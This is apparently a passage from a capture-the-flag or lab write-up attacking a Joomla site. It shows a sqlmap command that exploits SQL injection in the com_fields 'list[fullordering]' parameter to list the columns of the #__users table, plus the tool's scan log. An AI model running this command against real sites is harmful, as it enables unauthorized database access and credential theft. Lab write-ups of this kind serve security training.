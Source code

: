 [14:25:05] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 74 times
[14:25:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.74.3'
I

finding the #__users table pretty interesting I looked into that

┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.151.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
        ___
       __H__                                                                                                                                          
 ___ ___["]_____ ___ ___  {1.9.2#stable}                                                                                                              
|_ -| . [)]     | .'| . |                                                                                                                             
|___|_  [)]_|_|_|__,|  _|                                                                                                                             
      |_|V...       |_|   https://sqlmap.org                                                                                                          

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:25:04 /2025-04-25/

[16:25:04] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.11 Safari/535.19' from file '/usr/share/sqlmap/data/txt/user-agents.txt'                                                              
[16:25:04] [INFO] testing connection to the target URL
[16:25:08] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=t7vvcpp79q5...vd8i2jqsu4'). Do you want to use those [Y/n] y
[16:25:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:25:11] [INFO] testing if the target URL content is stable
[16:25:11] [INFO] target URL content is stable
[16:25:11] [INFO] heuristic (basic) test shows that GET parameter 'list[fullordering]' might be injectable (possible DBMS: 'MySQL')
[16:25:11] [INFO] testing for SQL injection on GET parameter 'list[fullordering]'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
[16:25:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:25:13] [WARNING] reflective value(s) found and filtering out
[16:25:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:25:50] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:26:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[16:27:32] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[16:28:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[16:29:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[16:29:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[16:30:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:30:04] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[16:30:05] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[16:30:05] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[16:30:06] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[16:30:06] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[16:31:03] [INFO] testing 'Generic inline queries'
[16:31:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:31:48] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:32:29] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[16:33:13] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'